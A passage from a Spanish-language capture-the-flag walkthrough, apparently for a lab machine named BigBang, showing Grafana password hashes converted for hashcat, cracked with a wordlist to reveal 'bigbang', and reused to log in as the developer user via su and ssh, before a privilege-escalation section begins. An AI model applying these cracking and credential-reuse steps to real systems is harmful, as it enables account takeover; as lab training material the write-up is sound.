 Aplicamos el script y obtenemos los hashes: 
```bash 
┌──(kali㉿kali)-[~/labs-hack/bigbang/grafana2hashcat]
└─$ python3 grafana2hashcat.py hashes -o grafanahashes

[+] Grafana2Hashcat
[+] Reading Grafana hashes from:  hashes
[+] Done! Read 2 hashes in total.
[+] Converting hashes...
[+] Converting hashes complete.
[+] Writing output to 'grafanahashes' file.
[+] Now, you can run Hashcat with the following command, for example:

hashcat -m 10900 hashcat_hashes.txt --wordlist wordlist.txt

──(kali㉿kali)-[~/labs-hack/bigbang/grafana2hashcat]
└─$ cat grafanahashes
sha256:10000:Q0ZuN3pNc1FwZg==:RBpxW9eI6SgXC+eVSxfLGd6DWi3t/ezoxlMnyx2bpr1H1w7bdCGwXZcGumFHy3GXOjQ=
sha256:10000:NHVtZWJCSnVjdg==:foAYpCEO+66xLwEVWApHb+j5ik+braJyDmUmVIYMWduTV3sSIBwBUSVjddb4g/G42WA= 
```

Y ya se pueden crackear con hashcat
```bash 
$ hashcat grafanahashes_hashcat rockyou.txt
``` 

Con una buena pc encontrarán que la contraseña es `bigbang`

Y la contraseña se reutiliza, también sirve para ssh:
```bash 
shawking@bigbang:~$ su - developer
Password: 
developer@bigbang:~$ 

┌──(kali㉿kali)-[~/labs-hack/bigbang/www]
└─$ ssh developer@10.10.11.52                                                  
developer@10.10.11.52's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-130-generic x86_64)

 System information as of Thu May 15 04:19:10 AM UTC 2025

  System load:  0.08              Processes:             189
  Usage of /:   67.7% of 9.74GB   Users logged in:       1
  Memory usage: 32%               IPv4 address for eth0: 10.10.11.52
  Swap usage:   0%

developer@bigbang:~$
```

<h2 style="color: #9FEF00;"> Escalada de privilegios.</h2>

Este usuario tiene una apk: 
```bash 
developer@bigbang:~/android$ ls
satellite-app.apk
```
